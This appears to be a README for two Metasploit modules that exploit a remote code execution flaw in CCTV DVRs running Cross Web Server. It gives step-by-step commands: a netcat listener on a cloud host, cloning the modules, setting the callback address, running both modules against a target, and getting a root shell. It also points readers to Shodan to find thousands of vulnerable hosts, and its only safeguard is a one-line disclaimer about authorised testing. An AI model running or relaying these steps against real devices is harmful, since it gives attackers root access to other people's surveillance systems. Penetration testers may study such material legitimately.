 This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

**Step 1:**

On this cloud host type
```
nc -l 666
```
On another host, or the same host in another window (making sure metasploit is installed)

**Step 1:**
```
cd /usr/share/metasploit-framework/modules/exploits/linux/http
```
**Step 2:**
```
git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git
```
**Step 3:**

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host

**Step 4:**

type 

```
msfconsole
```
**Step 5:**

```
use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part) 

**Step 6:**

```
use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part)

**Step 7:**

go back to your cloud or web-facing ip netcat session and type in:
```
whoami
```

to get the answer

root

if the exploit executed succesfully
